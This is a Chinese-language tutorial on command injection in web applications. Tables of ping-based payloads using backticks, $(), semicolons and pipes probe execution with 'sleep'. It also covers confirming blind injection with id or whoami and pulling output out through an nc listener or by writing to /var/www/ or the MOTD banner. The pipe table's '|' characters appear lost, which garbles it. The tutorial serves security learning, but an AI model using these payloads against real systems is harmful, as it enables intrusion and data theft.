 ## 命令注入

命令注入是指通过提交恶意构造的参数破坏命令语句结构，从而达到执行恶意命令的目的。
在Web应用中，有时候会用到一些命令执行的函数，如php中system、exec、shell_exec等，当对用户输入的命令没有进行限制或者过滤不严导致用户可以执行任意命令时，就会造成命令执行漏洞。

当一个命令被解析时，它首先会执行反引号之间的操作。例如执行echo `ls -a` 将会首先执行ls并捕获其输出信息。然后再将它传递给echo，并将ls的输出结果打印在屏幕上，这被称为命令替换。由于反引号之间的命令优先被执行，所以之后的命令即便执行失败也无关紧要。以下是payload注入及结果的命令表：

命令	结果
ping -c 4 114.114.114.114`sleep 6`	sleep命令执行，命令替换在命令行中。
ping -c 4 "114.114.114.114`sleep 6`"	sleep命令执行，命令替换在复杂的字符串双引号之间。
ping -c 4 $(echo 114.114.114.114`sleep 6`)	sleep命令执行，命令替换在使用不同符号时（下面示例）。
ping -c 4 '114.114.114.114`sleep 6`'	sleep命令不执行，命令替换在简单字符串中不起作用（单引号之间）。
ping -c 4 "`echo 114.114.114.114`sleep 6"	sleep命令不执行，使用相同符号时命令替换不起作用。

ping -c 4 '114.114.114.114$(sleep 6)'
这是命令替换的不同符号。当反引号被过滤或编码时，可能会更有效。当使用命令替换来查找命令注入时，务必确保payload已被替换，避免出现上述表中的最后一种情况。

ping -c 4 '114.114.114.114; sleep 6'
命令按照顺序（从左到右）被执行，并且可以用分号进行分隔。当有一条命令执行失败时，不会中断其它命令的执行。以下是payload注入及结果的命令表：

命令	结果
ping -c 4 114.114.114.114;sleep 6	sleep命令执行，命令在命令行中顺序执行。
ping -c 4 "114.114.114.114;sleep 6"	sleep命令不执行，附加命令被注入到一个字符串中，该字符串作为参数传递给ping命令。
ping -c 4 $(echo 114.114.114.114;sleep 6)	sleep命令执行，排序命令在命令替换中起作用。
ping -c 4 '114.114.114.114;sleep 6'	sleep命令不执行， 附加命令被注入到一个字符串中，该字符串作为参数传递给ping命令。
ping -c 4 `echo 114.114.114.114 sleep 6`;	sleep命令执行，排序命令在命令替换中起作用。

ping -c 4 '114.114.114.114|sleep 6'
除此之外还可以使用命令管道符，通过管道符可以将一个命令的标准输出管道为另外一个命令的标准输入。例如执行cat /etc/passwd | grep root这条命令时，它将捕获cat /etc/passwd的输出并将其传递给grep root，最终显示与root匹配的行。当第一条命令失败时，它仍然会执行第二条命令。以下是payload注入及结果的命令表：

ping -c 4 114.114.114.114	sleep 6	sleep命令被执行，管道输出在命令行正常执行。
ping -c 4 "114.114.114.114	sleep 6"	sleep命令未被执行，附加命令被注入到一个字符串中，该字符串作为参数传递给ping命令。
ping -c 4 $(echo 114.114.114.114	sleep 6)	sleep命令被执行，管道输出在命令替换中起作用。
ping -c 4 '114.114.114.114	sleep 6'	sleep命令未被执行，附加命令被注入到一个字符串中，该字符串作为参数传递给ping命令。
ping -c 4 `echo 114.114.114.114	sleep 6`	sleep命令被执行，管道输出在命令替换中起作用。

- 如何分辨命令注入和命令盲注？

我们需要确定它是一个常规命令注入还是命令盲注。两者的区别在于，命令盲注不会在响应中返回命令的输出。通用型的命令注入，将返回响应中执行命令的输出。通常sleep命令就可以为我们很好的判断。当然，除此之外你还可以使用更多的命令来进行验证，如执行id，hostname或whoami。服务器的主机名可用于确定受影响的服务器数量。

- 没有企业愿意让你窥探到他们的机密信息。在实际测试中利用该漏洞时，最好先取得目标企业的授权。如果仅仅是想要证明漏洞的危害，那么id，hostname或whoami这些命令则已经足够。
如何检测命令盲注？

命令盲注输出将不会返回给用户，所以我们需要通过其它方法来提取输出。最直接的方法是将输出offload到你的服务器。我们只需在服务器上执行nc -l -n -vv -p 80 -k这条命令，并配置防火墙允许80端口入站连接。

- 在服务器上执行端口扫描，并且基于暴露的服务确定提取输出的方式。
FTP：尝试将文件写入可以从中下载文件的目录。

SSH：尝试将命令的输出写入MOTD banner，然后只需SSH到服务器。

Web：尝试将命令的输出写入公共目录（/var/www/）中。

